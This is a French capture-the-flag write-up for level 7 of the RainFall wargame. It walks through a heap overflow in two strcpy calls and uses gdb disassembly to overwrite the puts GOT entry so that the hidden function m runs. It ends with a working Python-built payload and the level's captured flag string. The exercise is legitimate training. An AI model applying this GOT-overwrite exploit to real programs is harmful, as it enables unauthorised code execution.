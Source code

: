 # Level7

```
level7@RainFall:~$ ./level7
^CSegmentation fault (core dumped)
level7@RainFall:~$ ./level7 coucou
^CSegmentation fault (core dumped)
level7@RainFall:~$ ./level7 coucou coucou
~~
```
Ce nouveau programme prend en parametre deux arguments donnés au programme.


Une fonction "m" n'est pas appelée par le programme main. Le main alloue 8 char pour chaque argument passés, sur le tas avec la fonction strcpy. Nous allons exploiter un overflow.
Commençons par vérifier a quel endroit de la mémoire nous pouvons écraser l'adresse de retour.

```
level7@RainFall:~$ /home/user/level7/level7 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYY
ZZZZ aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
level7@RainFall:~$ dmesg | grep "segfault"
[28297.550418] level7[9471]: segfault at 46464646 ip b7eb02b9 sp bffff614 error 6 in libc-2.15.so[b7e2c000+1a3000]
```
l'offset est 20 (46464646 = FFFF)

Puis nous inspectons la fonction puts utilisée après:
```
0x080485f7 <+214>:	call   0x8048400 <puts@plt>

(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
(gdb) x/x 0x8049928
   0x8049928 <puts@got.plt>:     0x08048406
```
Nous allons utiliser le puts final : nous savons que le programme stocke l'appel de chaque fonction dans la GOT (Global Offset Table) ce qui permet au prochains appels de cette fonction, de ne pas aller chercher a chaque fois dans la bibliotèque standard C.

Nous allons ecraser la valeur du puts (qui pointe vers le puts de la GOT) pour sauter vers la fonction m.


```
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   %ebp
   0x08048522 <+1>:     mov    %esp,%ebp
   0x08048524 <+3>:     and    $0xfffffff0,%esp
   0x08048527 <+6>:     sub    $0x20,%esp
   0x0804852a <+9>:     movl   $0x8,(%esp)
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:    mov    %eax,0x1c(%esp)
   0x0804853a <+25>:    mov    0x1c(%esp),%eax
   0x0804853e <+29>:    movl   $0x1,(%eax)
   0x08048544 <+35>:    movl   $0x8,(%esp)
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:    mov    %eax,%edx  <=== break ici
   0x08048552 <+49>:    mov    0x1c(%esp),%eax
   0x08048556 <+53>:    mov    %edx,0x4(%eax)
   0x08048559 <+56>:    movl   $0x8,(%esp)
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:    mov    %eax,0x18(%esp)
   0x08048569 <+72>:    mov    0x18(%esp),%eax
   0x0804856d <+76>:    movl   $0x2,(%eax)
   0x08048573 <+82>:    movl   $0x8,(%esp)
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:    mov    %eax,%edx <=== break ici

End of assembler dump.
(gdb) b*0x08048550
Breakpoint 1 at 0x8048550
(gdb) b *0x0804857f
Breakpoint 2 at 0x804857f

(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level7/level7

Breakpoint 1, 0x08048550 in main ()
(gdb) i r
eax            0x804a018   <=== adresse du malloc de strcpy1     134520856

(gdb) c
Continuing.

Breakpoint 2, 0x0804857f in main ()
(gdb) i r
eax            0x804a038     <=== adresse du malloc de strcpy2    134520888

```

Les deux buffer des array1[1] et array2[1] sont proche en memoire, en ecrivant a (buffer strcpy1) + 20, l'adresse de puts, on ecrase le buffer de copy du 2e strcpy par l'adresse du puts, et on y ecris l'adresse de la fonction m.

Lors de l'appel de puts, c'est maintenant la fonction m qui sera appelee.

```
level7@RainFall:~$ /home/user/level7/level7 $(python -c 'print ("A"*20 + "\x28\x99\x04\x08")') $(python -c 'print ("\xf4\x84\x04\x08")')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

